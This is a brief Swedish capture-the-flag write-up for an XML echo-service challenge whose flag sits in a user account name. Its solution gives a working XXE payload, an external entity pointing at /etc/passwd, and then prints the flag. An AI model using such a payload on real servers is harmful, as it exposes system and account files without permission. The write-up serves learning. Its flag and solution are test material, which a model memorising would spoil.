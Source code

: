 # XML-kontroll
**Kontrollera din XML med vår webbtjänst!**
*Skriv in din XML-data, vänta några sekunder, och få (nästan) samma sträng tillbaka. Snabbt, enkelt och... ja, det är ganska meningslöst, men det fungerar (nästan) felfritt!*

*Servern används också för att lagra en hemlig flagga, men den är i säkert förvar i namnet på ett användarkonto så det finns (nästan) absolut ingen risk att någon läser ut den från filsystemet!*

[http://challs.crate.nu:16627](http://challs.crate.nu:16627)

## Solution
1. Kolla hacktricks.xyz, de har ett tips på en xml-payload för att läsa `/etc/passwd`, testar denna
2. ```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>``
3. Få flagga...


## Flag
**Flag:** `cratectf{xml_xxe_xploit_xpert}`
